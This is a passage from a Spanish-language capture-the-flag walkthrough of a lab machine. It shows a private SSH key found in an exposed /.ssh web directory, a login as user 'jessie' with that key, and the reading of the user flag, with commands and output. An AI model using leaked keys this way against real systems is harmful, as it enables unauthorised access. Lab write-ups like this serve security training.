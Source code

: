 De los directorios que nos reporta con código existoso, el único que llama la atención es /.ssh

Entramos en el y nos reporta una clave privada de SSH.

# [](#header-1)Acceso al sistema

Con el usuario anterior, intentamos conectarnos por SSH con la clave privada. Para ello debemos crearnos un archivo que se llame id_rsa y darle permisos con chmod (chmod 600 id_rsa). En este punto nos conectamos:

```bash
❯ ssh -i id_rsa jessie@10.10.17.209
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```

Conseguimos acceso al sistema. Investigamos un poco y conseguimos la flag del usuario:

```bash
jessie@CorpOne:~$ ls -R
.:
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos

./Desktop:

./Documents:
user_flag.txt

./Downloads:

./Music:

./Pictures:

./Public:

./Templates:

./Videos:
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ cat user_flag.txt 
????????????????????????''
```
